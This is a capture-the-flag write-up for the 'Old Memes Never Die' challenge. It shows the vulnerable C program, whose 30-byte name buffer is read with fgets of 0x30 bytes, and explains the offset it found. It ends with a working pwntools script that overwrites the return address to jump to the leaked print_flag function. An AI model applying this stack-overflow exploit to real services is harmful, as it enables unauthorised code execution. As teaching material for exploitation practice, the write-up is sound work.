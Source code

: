 <img width="484" height="464" alt="image" src="https://github.com/user-attachments/assets/3b955f2b-b927-4411-b566-edece827824b" />   

Given source code:  
```python
/* Old Memes Never Die 
 * compile without protection, because protection is for Tonies!
 * gcc -m32 -fno-stack-protector -o old-memes old-memes.c
 */

#include <stdio.h>
#include <string.h>


int print_flag(){
    FILE *fptr = fopen("/flag", "r");
    if (fptr == NULL){
        return 1;
    }
    
    char flag[39];
    while (fgets(flag, sizeof(flag), fptr) != NULL){
        printf("F* YOU and your flag: %s !!!", flag);
    }
    fclose(fptr);
    return 0;
}

int ask_what(){
    char what[8];
    char check[6] = "what?";

    printf("\n\nWhat is your name?\n> ");
    fgets(what, sizeof(what), stdin);
    what[strcspn(what, "\r\n")] = 0;
    if (strcmp(check, what) != 0)
        return 1;
    return 0;
}

int ask_name(){
    char name[30];
    printf("\n\nWhat is your name?\n> ");
    fgets(name, 0x30, stdin);
    name[strcspn(name, "\r\n")] = 0;
    printf("F* YOU %s!\n", name);
}

int main(){
    setbuf(stdout, 0);
    printf("(do with this information what you want, but the print_flag function can be found here: %p)\n", print_flag);

    if(ask_what())
        return 1;
    ask_name();
    return 0;
}
```
When run, the program ask us "What is your name?" and answer by "F* YOU + your input" (lol).  
Let's analyze the code and see where we can deploy bufferoverflow.  
```python
    if(ask_what())
        return 1;
    ask_name();
```
First in the `main()` function, after it print `print_flag()` function address, it calls `ask_what()` function. If it's true, it calls `ask_name()` function, if not `return 0;`.  
The `ask_what()` function, check the input with `what?` by using `fgets` and `strcspn` .  
The `ask_name()` function, ask the name again. `name[30]` defined with 30 bytes **BUT** `fgets` is called with `0x30` ~ 48 bytes. That our main point.  
Our payload should be:  

``` 
[filler to get through local] + [overwrite saved EBP (4 bytes, can be junk)] + [4 bytes = address print_flag (little-endian)]
```

After brute-force form 30 to 48, i found the right offset is 38 ( 30 name + 8 padding ).  
Then it should be :

``` 
[ name: 30 bytes ] [ gap/padding: 8 bytes ] [ saved EBP: 4 bytes ] [ saved EIP: 4 bytes ] [ another 2 bytes for pretty ]
```

Python script to inject it:  
```python
#!/usr/bin/env python3
from pwn import *

host = "old-memes-never-die.ctf.zone"
port = 4242
context(arch="i386", os="linux")

def exploit():
    r = remote(host, port)

    # 1) read banner and parse addr print_flag
    line = r.recvline(timeout=3).decode(errors="ignore")
    print(line, end="")
    addr_str = line.strip().split()[-1].rstrip(")")
    addr = int(addr_str, 16)
    log.info(f"print_flag @ {hex(addr)}")

    # 2) answer ask_what
    r.recvuntil(b"> ")
    r.sendline(b"what?")

    # 3) payload according to found offset (38)
    offset = 38
    dummy_ebp = b"BBBB"          # fill saved EBP (value not important)
    payload = b"A" * offset + dummy_ebp + p32(addr) + b"AA"

    log.info(f"Payload len = {len(payload)}; offset={offset}")
    r.recvuntil(b"> ")
    r.sendline(payload)

    # 4) read output (flag in this part)
    try:
        print(r.recvall(timeout=4).decode(errors="ignore"))
    except Exception as e:
        log.warning("recvall exception: " + str(e))
    r.close()

if __name__ == "__main__":
    exploit()

```  
Peace!







